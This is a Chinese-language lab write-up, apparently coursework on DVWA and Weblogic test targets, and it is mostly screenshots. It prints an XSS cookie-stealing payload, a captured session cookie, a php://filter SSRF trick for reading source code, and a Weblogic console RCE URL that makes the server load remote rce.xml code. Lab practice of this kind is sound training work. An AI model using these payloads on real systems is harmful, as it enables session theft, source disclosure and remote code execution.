 





## 1.CSRF

- DVWA-High 等级
- 使用 Burp 生成 CSRF 利用 POC

![](C:\Users\user\AppData\Roaming\marktext\images\2023-10-25-10-28-12-1698194918713_07C5BC91-84D6-4933-B64C-F6A34BF05804.png)

<mark>注：因为存在user_token,一直会变动</mark>

先利用XSS漏洞(img src=x OnerrOr=alert(document.cookie))，再利用CSRF

![](C:\Users\user\AppData\Roaming\marktext\images\2023-10-25-10-29-17-1698195061665_9D121963-F86C-43da-911A-9F0E2E0064C0.png)

获得cookie PHPSESSID=bc71s9c2nqmmstsammukc8dpa1; security=low

![](C:\Users\user\AppData\Roaming\marktext\images\2023-10-25-10-30-46-dedc316c51cc199c7640696f941cb524.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-10-25-10-30-53-0d254f4221879c77b57d087cf7f20e0e.png)

### 使用burp生成 CSRF 利用 POC

![](C:\Users\user\AppData\Roaming\marktext\images\2023-10-25-10-31-33-68ba29cf708a1e18084282172dbded05.jpg)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-10-25-10-31-42-ce5be5d9542423bbf39ccd82e159d618.png)

## 2.SSRF（file_get_content），要求获取 ssrf.php 的源码；

### php://filter：是一种元封装器， 设计用于数据流打开时的筛选过滤应用。 对于一体式（all-in-one）的文件函数非常有用，类似 readfile()、 file() 和 file_get_contents()，在数据流内容读取之前没有机会应用其他过滤器.

![](C:\Users\user\AppData\Roaming\marktext\images\2023-10-25-10-32-00-61aa805d3f26188293187e01a3bd04c8.png)

### 在read参数中加入 convert.base64-encode

![](C:\Users\user\AppData\Roaming\marktext\images\2023-10-25-10-32-09-d4f53fb279b403ab455194f002ef90c4.png)

### 利用BASE64解码

![](C:\Users\user\AppData\Roaming\marktext\images\2023-10-25-10-32-16-bc2f1f75104387859eb158874c0324ff.png)

## 3.远程代码执行漏洞：Weblogic RCE。

![](C:\Users\user\AppData\Roaming\marktext\images\2023-10-25-10-32-25-89528456d50e60a0829366cb2cc60333.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-10-25-10-32-30-fc29fdbb6a3a6e215093ee97dcb4264f.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-10-25-10-32-38-d8438cd19c96dd557a015857bb3c6e2c.png)

### http://192.168.80.128:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext()"http://192.168.80.128:8082/hackable/uploads/rce.xml")

![](C:\Users\user\AppData\Roaming\marktext\images\2023-10-25-10-32-45-19c1aff3aa2b919781198d23e235df5f.png)



![](C:\Users\user\AppData\Roaming\marktext\images\2023-10-25-10-37-07-1698201420579.png)

![](C:\Users\user\AppData\Roaming\marktext\images\2023-10-25-10-37-15-1698200781255_29EF2DD7-169D-4608-A6C8-89BCCA899627.png)


